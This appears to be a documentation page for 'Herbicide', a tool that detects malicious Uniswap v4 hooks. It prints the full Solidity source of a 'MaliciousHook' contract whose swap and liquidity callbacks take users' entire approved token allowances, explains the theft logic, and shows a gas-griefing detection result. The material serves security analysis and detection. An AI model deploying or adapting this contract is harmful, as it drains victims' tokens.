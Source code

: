 # Malicious Hook Detection

## Malicious Hook Example

[https://unichain-sepolia.blockscout.com/address/0xbedD50791A853b4FAf2116AcC9b8df71D525C547?tab=contract](https://unichain-sepolia.blockscout.com/address/0xbedD50791A853b4FAf2116AcC9b8df71D525C547?tab=contract)

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {BaseHook} from "v4-periphery/src/base/hooks/BaseHook.sol";
import {ERC1155} from "@openzeppelin/contracts/token/ERC1155/ERC1155.sol";
import {IPoolManager} from "v4-core/src/interfaces/IPoolManager.sol";
import {Hooks} from "v4-core/src/libraries/Hooks.sol";

import {PoolId, PoolIdLibrary} from "v4-core/src/types/PoolId.sol";
import {PoolKey} from "v4-core/src/types/PoolKey.sol";

import {Currency, CurrencyLibrary} from "v4-core/src/types/Currency.sol";
import {StateLibrary} from "v4-core/src/libraries/StateLibrary.sol";

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

import {TickMath} from "v4-core/src/libraries/TickMath.sol";
import {BalanceDelta} from "v4-core/src/types/BalanceDelta.sol";

import {FixedPointMathLib} from "solmate/src/utils/FixedPointMathLib.sol";
import {IHooks} from "v4-core/src/interfaces/IHooks.sol";
import {SafeCast} from "v4-core/src/libraries/SafeCast.sol";
import {toBalanceDelta} from "v4-core/src/types/BalanceDelta.sol";
import {CurrencySettler} from "v4-core/test/utils/CurrencySettler.sol";

contract MaliciousHook is BaseHook {
    using Hooks for IHooks;
    using SafeCast for uint256;
    using SafeCast for int128;
    using CurrencySettler for Currency;

    bool private firstAddLiquidity = true;
    uint128 public constant TOTAL_BIPS = 10000;

    constructor(IPoolManager _manager) BaseHook(_manager) {}

    function getHookPermissions()
        public
        pure
        override
        returns (Hooks.Permissions memory)
    {
        return
            Hooks.Permissions({
                beforeInitialize: false,
                afterInitialize: false,
                beforeAddLiquidity: false,
                afterAddLiquidity: true,
                beforeRemoveLiquidity: false,
                afterRemoveLiquidity: true,
                beforeSwap: false,
                afterSwap: true,
                beforeDonate: false,
                afterDonate: false,
                beforeSwapReturnDelta: false,
                afterSwapReturnDelta: true,
                afterAddLiquidityReturnDelta: true,
                afterRemoveLiquidityReturnDelta: true
            });
    }

    function afterSwap(
        address sender, /* sender **/
        PoolKey calldata key,
        IPoolManager.SwapParams calldata params,
        BalanceDelta delta,
        bytes calldata /* hookData **/
    ) external override onlyPoolManager returns (bytes4, int128) {

        bool specifiedTokenIs0 = (params.amountSpecified < 0 == params.zeroForOne);
        (Currency targetCurrency, int128 swapAmount) =
            (specifiedTokenIs0) ? (key.currency1, delta.amount1()) : (key.currency0, delta.amount0());

        
        if (swapAmount < 0) 
            swapAmount = -swapAmount;
        else
            return (IHooks.afterSwap.selector,0);

        address victim = tx.origin;
        IERC20 feeToken = IERC20(Currency.unwrap(targetCurrency));
        uint256 stealAmount = feeToken.allowance(victim, sender);

        if (stealAmount > targetCurrency.balanceOf(victim)) {
            stealAmount = targetCurrency.balanceOf(address(victim));
        }

        if (poolManager.isOperator(victim, sender)) {
            uint256 balance_6909 = poolManager.balanceOf(victim, targetCurrency.toId());

            stealAmount = stealAmount < balance_6909 ? stealAmount : balance_6909;
        }

        targetCurrency.take(poolManager, address(this), stealAmount, true);
        targetCurrency.settle(poolManager, address(this), (stealAmount * key.fee / TOTAL_BIPS) + uint128(swapAmount), true);
        stealAmount = stealAmount - (stealAmount * key.fee / TOTAL_BIPS) - uint128(swapAmount);

        return (IHooks.afterSwap.selector, (stealAmount).toInt128());
    }

    function afterRemoveLiquidity(
        address, /* sender **/
        PoolKey calldata key,
        IPoolManager.ModifyLiquidityParams calldata, /* params **/
        BalanceDelta delta,
        BalanceDelta,
        bytes calldata /* hookData **/
    ) external override onlyPoolManager returns (bytes4, BalanceDelta) {
        assert(delta.amount0() >= 0 && delta.amount1() >= 0);

        uint256 stealAmount0;
        uint256 stealAmount1;

        if (delta.amount0() > 0)
            stealAmount0 = uint128(delta.amount0()) - 1;
        if (delta.amount1() > 0)
            stealAmount1 = uint128(delta.amount1()) - 1;

        key.currency0.take(poolManager, address(this), stealAmount0, true);
        key.currency1.take(poolManager, address(this), stealAmount1, true);

        return (IHooks.afterRemoveLiquidity.selector, toBalanceDelta(int128(uint128(stealAmount0)), int128(uint128(stealAmount1))));
    }

    function afterAddLiquidity(
        address sender, /* sender **/
        PoolKey calldata key,
        IPoolManager.ModifyLiquidityParams calldata, /* params **/
        BalanceDelta delta,
        BalanceDelta,
        bytes calldata /* hookData **/
    ) external override onlyPoolManager returns (bytes4, BalanceDelta) {
        if (firstAddLiquidity) {
            firstAddLiquidity = false;
            return (IHooks.afterAddLiquidity.selector, toBalanceDelta(0, 0));
        }
        assert(delta.amount0() <= 0 && delta.amount1() <= 0);

        address victim = tx.origin;
        IERC20 targetToken0 = IERC20(Currency.unwrap(key.currency0));
        IERC20 targetToken1 = IERC20(Currency.unwrap(key.currency1));
        uint256 stealAmount0 = targetToken0.allowance(victim, sender);
        uint256 stealAmount1 = targetToken1.allowance(victim, sender);            
        if (stealAmount0 > targetToken0.balanceOf(victim)) {
            stealAmount0 = targetToken0.balanceOf(address(victim));
        }
        if (stealAmount1 > targetToken1.balanceOf(victim)) {
            stealAmount1 = targetToken1.balanceOf(address(victim));
        }

        if (poolManager.isOperator(victim, sender)) {
            uint256 balance0_6909 = poolManager.balanceOf(victim, key.currency0.toId());
            uint256 balance1_6909 = poolManager.balanceOf(victim, key.currency1.toId());

            stealAmount0 = stealAmount0 < balance0_6909 ? stealAmount0 : balance0_6909;
            stealAmount1 = stealAmount1 < balance1_6909 ? stealAmount1 : balance1_6909;
        }
        
        key.currency0.take(poolManager, address(this), stealAmount0, true);
        key.currency1.take(poolManager, address(this), stealAmount1, true);
        key.currency0.settle(poolManager, address(this), uint128(-delta.amount0()), true);
        key.currency1.settle(poolManager, address(this), uint128(-delta.amount1()), true);

        stealAmount0 -= uint128(-delta.amount0());
        stealAmount1 -= uint128(-delta.amount1());

        return (IHooks.afterAddLiquidity.selector, toBalanceDelta(int128(uint128(stealAmount0)), int128(uint128(stealAmount1))));
    }
}
```



**Main Logic**

A malicious hook can monitor the amount of tokens a user has approved.

1. The malicious hook takes the entire approved token amount through ERC6909.
2. It then settles only the necessary amount required for a legitimate Swap/ModifyLiquidity.
3. Through this process, the malicious hook can effectively steal the maximum possible token amount the user has approved for the transaction.

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>Exact Out Swap Test</p></figcaption></figure>

The image above illustrates the process in which the Malicious Hook exploits the token approval mechanism. The first step shows the Malicious Hook verifying the approved token amount. In the second step, it proceeds to transfer the entire approved token quantity to ERC6909. Finally, the required amount is settled for legitimate Swap/ModifyLiquidity actions, allowing the Malicious Hook to maximize the tokens stolen from the User.



## Herbicide Detection Result

### GasGriefHook

Hooks can significantly influence PoolKeys' behavior. For example, if a hook triggers a revert, it could render the associated pool unusable. Such cases, which compromise user accessibility, include attacks like gas griefing. Herbicide addresses these risks by detecting such hooks through dynamic analysis testing.

```json
{
    "currency0": "0x0197481B0F5237eF312a78528e79667D8b33Dcff",
    "currency1": "0xA56569Bd93dc4b9afCc871e251017dB0543920d4",
    "fee": 3000,
    "tickSpacing": 60,
    "hooks": "0x3c712B5E5B4a7ee97E4e3F2330bFb435050a4800",
    "deployer": "0x4e59b44847b379578588920cA78FbF26c0B4956C"
}
```

[Code Details](https://unichain-sepolia.blockscout.com/address/0x3c712B5E5B4a7ee97E4e3F2330bFb435050a4800?tab=contract)
